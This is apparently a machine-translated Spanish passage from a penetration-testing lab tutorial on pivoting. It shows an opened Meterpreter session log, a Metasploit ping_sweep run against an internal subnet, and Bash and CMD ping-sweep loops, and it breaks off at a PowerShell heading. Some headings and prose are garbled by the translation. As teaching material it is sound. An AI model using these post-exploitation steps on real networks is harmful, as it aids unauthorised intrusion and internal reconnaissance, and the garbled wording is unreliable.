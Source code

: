 Necesitamos asegurarnos de que la sesión de meterpreter se establezca con éxito al ejecutar la carga útil.

### **Establecimiento de sesión de Meterpreter**

Túnel de meterpreter y reenvío de puertos

```
[*] Sending stage (3020772 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:8080 -> 10.129.202.64:39826 ) at 2022-03-03 12:27:43 -0500
meterpreter > pwd

/home/ubuntu

```

Sabemos que el objetivo de Windows está en la red 172.16.5.0/23. Entonces, suponiendo que el firewall en el objetivo de Windows esté permitiendo las solicitudes de ICMP, queremos realizar un barrido de ping en esta red. Podemos hacerlo usando meterpreter con el`ping_sweep`Módulo, que generará el tráfico ICMP desde el host Ubuntu a la red`172.16.5.0/23`.

### **Barrido de ping**

Túnel de meterpreter y reenvío de puertos

```
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23

[*] Performing ping sweep for IP range 172.16.5.0/23

```

También podríamos realizar un barrido de ping usando un`for loop`Directamente en un host Pivot de destino que hacer ping a cualquier dispositivo en el rango de red que especifiquemos. Aquí hay dos útiles Ping Barry para Foir One-Finers que podríamos usar para hosts de pivote basados en Linux y basados en Windows.

### **Ping Sweet for Loop en los hosts de Pivot Linux**

Túnel de meterpreter y reenvío de puertos

```
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```

### **Barrido de ping para bucle usando CMD**

Túnel de meterpreter y reenvío de puertos

```
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"

```

### **Ping barrido usando PowerShell**
